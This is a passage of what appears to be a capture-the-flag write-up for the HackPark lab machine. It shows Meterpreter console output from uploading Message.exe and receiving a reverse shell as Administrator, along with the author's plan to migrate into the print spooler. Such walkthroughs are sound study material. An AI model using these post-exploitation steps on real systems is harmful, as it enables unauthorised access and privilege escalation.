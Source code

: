 ```
meterpreter > cd ../
meterpreter > upload /root/ctf/transfer/Message.exe 
[*] uploading  : /root/ctf/transfer/Message.exe -> Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/ctf/transfer/Message.exe -> Message.exe
[*] uploaded   : /root/ctf/transfer/Message.exe -> Message.exe
meterpreter > 
[*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 2 opened (10.10.7.59:4443 -> 10.10.167.66:49273) at 2020-11-18 23:09:00 +0000

meterpreter > backgoround 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  IIS APPPOOL\Blog @ HACKPARK        10.10.7.59:4444 -> 10.10.167.66:49250 (10.10.167.66)
  2         meterpreter x86/windows  HACKPARK\Administrator @ HACKPARK  10.10.7.59:4443 -> 10.10.167.66:49273 (10.10.167.66)

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid
Current pid: 1260
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Success! I had an administrative account. I decided to move the session to a stabler process than the one i currently had, with the print spooler being my default first choice.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 368   4     smss.exe              x64   0                                      
 520   512   csrss.exe             x64   0                                      
 580   568   csrss.exe             x64   1                                      
 588   512   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 616   568   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 672   588   services.exe          x64   0                                      
 740   672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 784   672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 820   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 868   616   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 876   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```